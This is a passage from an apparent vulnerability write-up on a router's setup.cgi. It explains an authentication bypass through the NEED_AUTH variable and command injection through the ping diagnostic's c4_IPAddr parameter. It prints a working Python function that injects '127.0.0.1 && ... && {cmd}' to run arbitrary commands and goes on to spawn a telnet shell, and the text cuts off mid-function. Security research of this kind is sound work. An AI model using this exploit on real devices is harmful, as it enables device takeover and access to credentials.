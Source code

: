 ```C
}
```

The function needs to return zero for the caller to continue; otherwise it sends a *Forbidden* page. If the variable `NEED_AUTH` is present in the environment, the code checks if it is `'0'` and if so it returns `0` which means that no authentication is needed.

Because of the issue that we exploited in the HTTP server, `NEED_AUTH` will be set to `'0'` and this is how we bypass authentication.

At this point, we can access any feature exposed by the web UI: we can leak the HTTP credentials, etc.

### Executing arbitrary commands

Naturally, `setup.cgi` implements a feature that allows you to ping an arbitrary IP (in *Advanced > Administration > Diagnostics)*. The code for that is defined as below:

```C
// .text:00407948 handler_ping_test
int __fastcall handler_ping_test(int a1)
{
  const char *v2;
  const char *v3;
  char v5[128];

  v2 = (const char *)find_val(a1, (int)"c4_IPAddr");
  if ( !v2 )
    v2 = &nptr;
  if ( !strchr(v2, '-') && !strchr(v2, ';') )
  {
    sprintf(v5, "/bin/ping -c 4 %s", v2);
    myPipe(v5, &ping_output);
  }
  v3 = (const char *)find_val(a1, (int)"next_file");
  html_parser(v3, a1, &key_fun_tab);
  return 0;
}
```

You can inject a  command via the `c4_IPAddr` POST parameter. The `'-'`, `';'` characters can't be used but it is enough to run a telnet server that is available from the LAN side; this is what `longue-vue.py` does for dropping a shell:

```python
def cmd_exec(target, cmd, silent = False):
    '''Bypass authentication and command inject `cmd`.'''
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337foo=currentsetting.htm', {
        'todo' : 'ping_test',
        'c4_IPAddr' : f'127.0.0.1 && echo SNIPME && {cmd}',
        'next_file' : 'diagping.htm'
    })

    content = r.content.decode()
    ping_log = re.findall(
        r'<textarea name="ping_result" .+ readonly >(.+)</textarea>',
        content,
        re.DOTALL
    )
    _, cmd_content = ping_log[0].split('SNIPME', 1)
    if not silent:
        print(cmd_content.strip())

def spawn_telnetd(target):
    '''Spawn the telnet server.'''
```